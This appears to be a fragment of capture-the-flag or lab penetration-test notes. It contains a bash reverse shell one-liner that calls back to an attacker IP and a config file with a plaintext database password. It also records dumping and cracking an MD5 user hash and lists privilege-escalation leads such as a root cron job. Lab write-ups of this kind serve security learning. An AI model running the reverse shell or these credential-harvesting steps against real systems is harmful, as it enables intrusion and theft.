 - Reverse Shell payload
```bash 
bash -c 'bash -i  >& /dev/tcp/10.10.14.5/9001 0>&1' 
``` 
![[Pasted image 20210329061212.png]]

## Current User
- Currently as www-data. Cat out config.php
 ```php
 <?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>

```
- Query admin.users table
```mysql
mysql> show tables;
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+
1 row in set (0.01 sec)

mysql> select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)

```
- MD5 hash. Crack using hashcat : **admin**:**1327663704**, but doesn't work other user.
- User named noulis# Priv Esc from www-data to root (directly)

- We can cat out the user.txt without being noulis from /home/noulis
- Intersting things:
	-  \* \* \* \* \*       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
	-  Some open and listening ports
	```bash
	tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      - Mysql                
	tcp        0      0 127.0.0.1:953           0.0.0.0:*               LISTEN      - RDNS
	```
	- Interesting files:
	```bash
	/home/noulis/.composer/cache/files/mockery/mockery/f30d894582b8b548b641819cd37c4cfc11d5b315.zip 
	/home/noulis/.composer/cache/files/tijsverkoyen/css-to-inline-styles/b52e5b78653e57b3b07937c1f84109ac7f77e5e0.zip
	/home/noulis/.composer/cache/files/sebastian/code-unit-reverse-lookup/9fdb38e356a0265a2dd6b64495413906b9366038.zip
	/home/noulis/.composer/cache/files/sebastian/resource-operations/fd2c0f591ee5fee7aa3eb70f20a1d64c1dc26e8d.zip
	/home/noulis/.composer/cache/files/sebastian/diff/d845e8b0ee3d707d4b13b9febac4e7a0e8b22fe5.zip
	/home/noulis/.composer/cache/files/sebastian/global-state/a0ef5bf736af85b66572f9ed232aa35c18fe5fb7.zip
	/home/noulis/.composer/cache/files/sebastian/exporter/81e14d73852681aabe5c5a9d8be1ef2045a9170a.zip
	/home/noulis/.composer/cache/files/sebastian/comparator/bdc0b01e0827c360d54386fe60dfc6bd65168f80.zip
	/home/noulis/.composer/cache/files/sebastian/version/c315a200d32565a6d8ebb3495cb5ae34c5ced3c8.zip
